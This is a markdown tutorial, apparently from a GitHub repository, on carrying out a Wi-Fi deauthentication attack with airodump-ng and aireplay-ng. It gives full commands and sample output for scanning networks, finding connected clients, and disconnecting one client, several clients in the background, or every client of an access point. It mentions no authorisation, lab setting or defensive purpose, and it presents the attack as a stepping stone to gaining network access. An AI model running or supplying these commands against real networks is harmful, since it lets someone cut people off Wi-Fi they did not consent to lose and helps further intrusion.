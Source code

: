 ## Deauth-Attack

Every information security enthusiast probably  know this basic  deauthentication attack, and if you don't  know no need to worry this writeup will give a indepth knowledge about deauthentication attack.

---

##### WHAT IS DEAUTHENTICATION ATTACK ?

- It disconnects any client from your network
- No need to connect to that network
- No need to know its key
- Works against all wifi networks
  - WEP
  - WPA
  - WPA2

**This is done by the tool <mark> aireplay -ng </mark>**

> We are illustrating this attack in **wlan0** interface

The classic command to know about all networks near you is

STEP 1:

```bash
root@kali:~# airodump-ng wlan0

```

So you using the above command target  any desired network by specifying is's *channel(ch)* and *bssid*  to know all the clients connected to that specific network.

STEP: 2

```bash
root@kali:~# airodump-ng --channel 1  -- bssid  56:13:58:76:5B:55 wlan0

```
You will get something like This

```bash
CH  1 ][ Elapsed: 30 s ][ 2020-05-05 16:35                                

BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

56:13:58:76:5B:55  -34 100      213       64    0   1  360  WPA2 CCMP   PSK  OnePlus 7T           

BSSID              STATION            PWR   Rate    Lost    Frames  Probe                         

56:13:58:76:5B:55  38:F9:D3:8A:D4:87  -30    1e-24      0       36                                 
56:13:58:76:5B:55  20:82:C0:7F:77:9B  -32    0e- 6      0       71                                 
56:13:58:76:5B:55  08:00:27:E6:E5:59  -33    54-1       0       50
root@kali:~#

```
Now you can deauthenticate any client as your wish by the below command


```bash
root@kali:~# aireplay-ng --deauth 10000 -a (MAC ADDRESS OF TARGET ACCESS POINT) -c (MAC ADDRESS OF MACINE TO DISCONNET) wlan0

```

- MAC ADDRESS OF TARGET ACCESS POINT: BSSID
- MAC ADDRESS OF MACINE TO DISCONNET: STATION
10000: packets using to deauthenticate

STEP 3: (IN ANOTHER TAB)
![](img/de/n3.png)


This will do your job but once you do this your bash screen will overflow and stuck by packets message and you can't write and more commands in bash.

**But what if you want to deauthenticate multiple clients ?**  

So here we have the solution to our above problem:

**Run aireplay-ng .... multiple times to deauthenticate multiple clients**

TIPS:
- Use  **&** at the end of the command to run it in the
- Use  **&>/dev/null** to redirect output to null

```bash
root@kali:~# aireplay-ng --deauth 10000 -a 56:13:58:76:5B:55 -c 08:00:27:E6:E5:59 wlan0 &> /dev/null &

```
Hit Enter


```bash
root@kali:~# aireplay-ng --deauth 10000 -a 56:13:58:76:5B:55 -c 08:00:27:E6:E5:59 wlan0 &> /dev/null &
[1] 14766
root@kali:~#

```
You will get an job id and bash will allow you to run any command and job will be running in background.

```bash
root@kali:~# aireplay-ng --deauth 10000 -a 56:13:58:76:5B:55 -c 08:00:27:E6:E5:59 wlan0 &> /dev/null &
[1] 14766
root@kali:~# aireplay-ng --deauth 10000 -a 56:13:58:76:5B:55 -c 20:82:C0:7F:77:9B wlan0 &> /dev/null
[2] 14785
root@kali:~#

```

- You can use **jobs** to see commands running in the background and **kill** to stop a specific job

```bash
root@kali:~# aireplay-ng --deauth 10000 -a 56:13:58:76:5B:55 -c 08:00:27:E6:E5:59 wlan0 &> /dev/null &
[1] 14766
root@kali:~# aireplay-ng --deauth 10000 -a 56:13:58:76:5B:55 -c 20:82:C0:7F:77:9B wlan0 &> /dev/null &
[2] 14785
root@kali:~#jobs
[1]- Running             aireplay-ng --deauth 10000 -a 56:13:58:76:5B:55 -c 08:00:27:E6:E5:59 wlan0 &> /dev/null &
[2]+ Running             aireplay-ng --deauth 10000 -a 56:13:58:76:5B:55 -c 20:82:C0:7F:77:9B wlan0 &> /dev/null &

```

Here you go smoothly in deauthenticating multiple clients . **But what if you want to disconnect all the devices**

To **disconnect** all clients connected to specific network

- Run the same **aireplay-ng** command
- Set the **BSSID** of target of NETWORK
- Omit the -c arguments (the client argument)


```bash
root@kali:~# aireplay-ng --deauth 10000 -a 56:13:58:76:5B:55 wlan0

```
Hit enter and you will successfully disconnect all the clients from that specific network.
>But if you get some **error** than follow the below commands to avoid error:

STEP1:

```bash
root@kali:~# airodump-ng wlan0

```
It will list all networks select the bssid and channel to deauthenticate all clients.


STEP 2:
```bash
root@kali:~# airodump-ng  --bssid 56:13:58:76:5B:55  --channel 1  wlan0

```

STEP3: (Run this in another TAB)

```bash
root@kali:~# aireplay-ng --deauth 10000 -a 56:13:58:76:5B:55 wlan0

```

See deauthentication attack is required in many  attack,  you can treat it as a small part of many network accessing attacks so keep a good grip on it.

---

**Author** - [Error](https://github.com/Error-200)

